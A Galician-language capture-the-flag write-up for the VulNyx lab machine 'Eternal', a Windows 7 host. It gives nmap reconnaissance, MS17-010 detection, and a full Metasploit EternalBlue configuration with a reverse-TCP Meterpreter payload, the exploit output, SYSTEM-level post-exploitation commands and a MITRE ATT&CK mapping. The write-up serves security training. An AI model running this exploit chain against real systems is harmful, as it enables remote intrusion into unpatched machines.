

Eternal
A máquina Eternal é moi interesante porque...
- Sistema operativo Windows 7 Enterprise SP1 (64 bits) (Sen soporte estendido desde xaneiro 2020)
- Vulnerabilidade crítica EternalBlue (CVE-2017-0144)
- Explotación mediante Metasploit Framework
- Obtención de shell Meterpreter con privilexios de SYSTEM
- Acceso directo a ambas flags (user e root) sen escalada
Diagrama de ataque

Fase 1 — Recopilación
sudo arp-scan --interface=eth1 192.168.56.0/24
ping -c2 IP_VulNyx_Eternal -R # TTL ≃ 128 ⇒ Microsoft Windows
sudo nmap -sS -Pn -T4 -p- -vvv --min-rate 5000 IP_VulNyx_Eternal
sudo nmap -O IP_VulNyx_Eternal # Detección de sistema operativo
Resultado da detección de SO
Fase 2 — Análise
Identificación do Sistema Operativo
# Detección de SO con nmap
sudo nmap -O -p 445 IP_VulNyx_Eternal
# Detección de versión SMB
sudo nmap -sV -p 445 --script smb-os-discovery IP_VulNyx_Eternal
Resultado
- Sistema: Windows 7 Enterprise 7601 Service Pack 1 x64 (64-bit)
- Porto 445 (SMB) aberto
- Porto 139 (NetBIOS) aberto
Enumeración de Vulnerabilidades SMB
Scripts NSE relevantes:
smb-vuln-ms17-010: Detecta EternalBlue VULNERABLE
Resultado esperado:
Host script results:
| smb-vuln-ms17-010:
| VULNERABLE:
| Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
| State: VULNERABLE
| IDs: CVE:CVE-2017-0143, CVE:CVE-2017-0144, CVE:CVE-2017-0145
| Risk factor: HIGH
| A critical remote code execution vulnerability exists in Microsoft
| SMBv1 servers (ms17-010).
| Disclosure date: 2017-03-14
| References:
| https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0144
| https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_ https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
Busca de Exploits
# Buscar exploits para EternalBlue
searchsploit ms17-010
searchsploit eternalblue
# Buscar en Metasploit
msfconsole -q
search ms17-010
search eternalblue
Resultado de Metasploit:
Matching Modules
================
# Name Disclosure Date Rank Description
- ---- --------------- ---- -----------
0 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 great MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
1 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
2 auxiliary/scanner/smb/smb_ms17_010 normal MS17-010 SMB RCE Detection
Información sobre EternalBlue (MS17-010)
Que é EternalBlue?
CVE-2017-0144 - Vulnerabilidade crítica en SMBv1 que permite execución remota de código.
Datos clave:
- Data de descubrimento: Marzo 2017 (filtrado por Shadow Brokers desde NSA)
- Criticidade: CRÍTICA (9.3/10 CVSS v2, 8.1/10 CVSS v3)
- Sistemas afectados: Windows XP, Vista, 7, 8.1, 10, Server 2003/2008/2012/2016
- Vector de ataque: Rede (remoto)
- Complexidade: Baixa
- Autenticación: Non require
Como funciona?
- Servizo vulnerable: SMBv1 (Server Message Block versión 1)
- Porto: 445/TCP (SMB)
- Tipo de vulnerabilidade: Buffer overflow no kernel
- Causa: Erro na xestión de paquetes SMB especialmente manipulados
Proceso de explotación
Atacante Windows 7 (Porto 445)
| |
| 1. Paquetes SMB maliciosos |
|------------------------------------->|
| (TransactionRequest) |
| |
| 2. Buffer overflow no kernel |
| | ← Kernel pool corruption
| |
| 3. Execución de shellcode |
| | ← RCE no kernel
| |
| 4. Shell como SYSTEM |
|<-------------------------------------|
Impacto:
- RCE (Remote Code Execution): Execución de código no kernel
- Sen autenticación: Non require credenciais
- Privilexios SYSTEM: Acceso ao kernel
- WannaCry: Ransomware que usou EternalBlue en maio 2017
- NotPetya: Malware destrutivo que tamén usou esta vulnerabilidade
- Microsoft Security Bulletin
- CVE: CVE-2017-0144, CVE-2017-0145, CVE-2017-0143
- CVSS Score: 9.3 (Crítico)
Fase 3 — Explotación
Preparación de Metasploit
# Iniciar Metasploit Framework
msfconsole -q
# Buscar exploit EternalBlue
search ms17-010
search eternalblue
Configuración do Exploit
# Seleccionar exploit
use exploit/windows/smb/ms17_010_eternalblue
# Ver opcións do exploit
show options
# Configurar RHOSTS (obxectivo)
set RHOSTS IP_VulNyx_Eternal
# Configurar LHOST (atacante)
set LHOST IP_Atacante
# Seleccionar payload (Meterpreter reverse TCP)
set payload windows/meterpreter/reverse_tcp
# IMPORTANTE: Configurar ProcessInject para estabilidade
set ProcessInject lsass.exe
# Verificar configuración
show options
Configuración típica:
Module options (exploit/windows/smb/ms17_010_eternalblue):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS 192.168.56.108 yes Target address
RPORT 445 yes SMB port
SMBDomain . no SMB Domain
SMBPass no SMB Password
SMBUser no SMB Username
VERIFY_ARCH true yes Check architecture
VERIFY_TARGET true yes Check target OS
Payload options (windows/x64/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique
LHOST 192.168.56.53 yes Listener IP
LPORT 4444 yes Listener port
Executar Exploit
Saída esperada:
[*] Started reverse TCP handler on 192.168.56.53:4444
[*] 192.168.56.108:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.56.108:445 - Host is likely VULNERABLE to MS17-010! - Windows 7 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.56.108:445 - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.56.108:445 - The target is vulnerable.
[*] 192.168.56.108:445 - Connecting to target for exploitation.
[+] 192.168.56.108:445 - Connection established for exploitation.
[+] 192.168.56.108:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.56.108:445 - CORE raw buffer dump (40 bytes)
[*] 192.168.56.108:445 - 0x00000000 57 69 6e 64 6f 77 73 20 37 20 45 6e 74 65 72 70 Windows 7 Enterp
[*] 192.168.56.108:445 - 0x00000010 72 69 73 65 20 37 36 30 31 20 53 65 72 76 69 63 rise 7601 Servic
[*] 192.168.56.108:445 - 0x00000020 65 20 50 61 63 6b 20 31 e Pack 1
[+] 192.168.56.108:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.56.108:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.56.108:445 - Sending all but last fragment of exploit packet
[*] 192.168.56.108:445 - Starting non-paged pool grooming
[+] 192.168.56.108:445 - Sending SMBv2 buffers
[+] 192.168.56.108:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.56.108:445 - Sending final SMBv2 buffers.
[*] 192.168.56.108:445 - Sending last fragment of exploit packet!
[*] 192.168.56.108:445 - Receiving response from exploit packet
[+] 192.168.56.108:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.56.108:445 - Sending egg to corrupted connection.
[*] 192.168.56.108:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 192.168.56.108
[+] 192.168.56.108:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.56.108:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.56.108:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Meterpreter session 1 opened (192.168.56.53:4444 -> 192.168.56.108:49158) at 2025-11-08 16:13:31 +0000
meterpreter >
Notas sobre a explotación:
- EternalBlue require máis tempo que outros exploits (15-30 segundos)
- A saída é moi verbosa durante o proceso
- O exploit funciona excelentemente en Windows 7 x64
- ProcessInject lsass.exe mellora a estabilidade da sesión
Fase 4 — Post‑explotación
Comandos Meterpreter
# Verificar usuario (debería ser SYSTEM)
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
# Ver información do sistema
meterpreter > sysinfo
Computer : [usuario]-PC
OS : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture : x64
System Language : es_ES
Domain : WORKGROUP
Logged On Users : 0
Meterpreter : x64/windows
# Listar procesos
meterpreter > ps
Process List
============
PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----
0 0 [System Process]
4 0 System x64 0
220 4 smss.exe x64 0 NT AUTHORITY\SYSTEM \SystemRoot\System32\smss.exe
292 284 csrss.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\csrss.exe
340 284 wininit.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\wininit.exe
436 340 services.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\services.exe
448 340 lsass.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\system32\lsass.exe
564 436 svchost.exe x64 0 NT AUTHORITY\SYSTEM
628 436 svchost.exe x64 0 NT AUTHORITY\Servicio de red
788 436 svchost.exe x64 0 NT AUTHORITY\SYSTEM
892 436 spoolsv.exe x64 0 NT AUTHORITY\SYSTEM C:\Windows\System32\spoolsv.exe
# Ver privilexios
meterpreter > getprivs
Enabled Process Privileges
==========================
Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeChangeNotifyPrivilege
SeImpersonatePrivilege
SeTcbPrivilege
# Obter shell de Windows
meterpreter > shell
Process 1964 created.
Channel 1 created.
Microsoft Windows [Versión 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.
C:\Windows\system32>
Navegación e obtención de flags
# Listar directorio raíz
C:\Windows\system32> cd c:\
c:\>
# Listar contido
c:\> dir
El volumen de la unidad C no tiene etiqueta.
El número de serie del volumen es: 44FD-46F4
Directorio de c:\
14/07/2009 04:20 <DIR> PerfLogs
03/02/2024 12:31 <DIR> Program Files
14/07/2009 05:57 <DIR> Program Files (x86)
03/02/2024 12:31 <DIR> Users
03/02/2024 12:32 <DIR> Windows
0 archivos 0 bytes
5 dirs 24.470.253.568 bytes libres
# Acceder ao directorio Users
c:\> cd users
c:\Users>
# Listar usuarios
c:\Users> dir
El volumen de la unidad C no tiene etiqueta.
El número de serie del volumen es: 44FD-46F4
Directorio de c:\Users
03/02/2024 12:31 <DIR> .
03/02/2024 12:31 <DIR> ..
03/02/2024 12:31 <DIR> [usuario]
12/04/2011 10:12 <DIR> Public
0 archivos 0 bytes
4 dirs 24.470.253.568 bytes libres
# Acceder ao usuario [usuario]
c:\Users> cd [usuario]
c:\Users\[usuario]>
# Listar contido do usuario
c:\Users\[usuario]> dir
El volumen de la unidad C no tiene etiqueta.
El número de serie del volumen es: 44FD-46F4
Directorio de c:\Users\[usuario]
03/02/2024 12:31 <DIR> .
03/02/2024 12:31 <DIR> ..
03/02/2024 12:47 <DIR> Contacts
03/02/2024 12:50 <DIR> Desktop
03/02/2024 13:08 <DIR> Documents
03/02/2024 12:47 <DIR> Downloads
03/02/2024 12:47 <DIR> Favorites
03/02/2024 12:47 <DIR> Links
03/02/2024 12:47 <DIR> Music
03/02/2024 12:47 <DIR> Pictures
03/02/2024 12:47 <DIR> Saved Games
03/02/2024 12:47 <DIR> Searches
03/02/2024 12:47 <DIR> Videos
0 archivos 0 bytes
13 dirs 24.470.253.568 bytes libres
# Acceder ao Desktop
c:\Users\[usuario]> cd Desktop
c:\Users\[usuario]\Desktop>
# Listar ficheiros no Desktop
c:\Users\[usuario]\Desktop> dir
El volumen de la unidad C no tiene etiqueta.
El número de serie del volumen es: 44FD-46F4
Directorio de c:\Users\[usuario]\Desktop
03/02/2024 12:50 <DIR> .
03/02/2024 12:50 <DIR> ..
03/02/2024 12:50 35 root.txt
03/02/2024 12:50 35 user.txt
2 archivos 70 bytes
2 dirs 24.470.253.568 bytes libres
# Ler flag de usuario
c:\Users\[usuario]\Desktop> type user.txt
[FLAG_USER]
# Ler flag de root (xa somos SYSTEM, non hai escalada)
c:\Users\[usuario]\Desktop> type root.txt
[FLAG_ROOT]
Ambas flags conseguidas sen necesidade de escalada de privilexios.
Correspondencia de fases → MITRE ATT&CK — VulNyx: Eternal
| Fase | Acción / Resumo | Vector principal | MITRE ATT&CK (IDs) | CWE(s) (relevantes) |
|---|---|---|---|---|
| 1. Recopilación | Descubrimento de host e servizos expostos | Scanning / descubrimento de servizos | T1595 — Active Scanning T1046 — Network Service Discovery |
CWE-200 — Information Exposure (reconnaissance) |
| Detección de sistema operativo Windows 7 | OS fingerprinting | T1592.004 — Gather Victim Host Information: Client Configurations | CWE-200 — Information Exposure | |
| 2. Análise | Enumeración de vulnerabilidades SMB con nmap | Vulnerability scanning | T1595.002 — Active Scanning: Vulnerability Scanning T1046 — Network Service Discovery |
CWE-1035 — 2017 Top 10 A9: Using Components with Known Vulnerabilities |
| Identificación de EternalBlue (CVE-2017-0144) | Known vulnerability identification | T1592 — Gather Victim Host Information T1595.002 — Active Scanning: Vulnerability Scanning |
CVE-2017-0144 | |
| 3. Explotación | Explotación de EternalBlue mediante Metasploit | Remote Code Execution via SMB | T1210 — Exploitation of Remote Services T1190 — Exploit Public-Facing Application |
CWE-119 — Buffer Overflow; CWE-787 — Out-of-bounds Write |
| Obtención de Meterpreter shell como SYSTEM | Privilege escalation / initial access | T1068 — Exploitation for Privilege Escalation T1059.003 — Command and Scripting Interpreter: Windows Command Shell |
CWE-269 — Improper Privilege Management | |
| 4. Post-explotación | Enumeración do sistema como SYSTEM | System information discovery | T1082 — System Information Discovery T1033 — System Owner/User Discovery |
CWE-200 — Information Exposure |
| Navegación polo sistema de ficheiros e lectura de flags | File and directory discovery | T1083 — File and Directory Discovery T1005 — Data from Local System |
N/A |
Recursos Adicionais
Referencias sobre EternalBlue
Malware relacionado
- WannaCry Ransomware: Mayo 2017 - Infección masiva global
- NotPetya: Xuño 2017 - Ataque destrutivo disfrazado de ransomware
- Bad Rabbit: Outubro 2017 - Campaña de ransomware en Europa
- Retefe Banking Trojan: 2017 - Troiano bancario usando EternalBlue
Parches e mitigacións
- MS17-010: Parche liberado por Microsoft en marzo 2017
- Deshabilitar SMBv1: Recomendación de seguridade de Microsoft
- Firewall: Bloquear porto 445/TCP desde Internet
- Actualizacións: Manter sistemas actualizados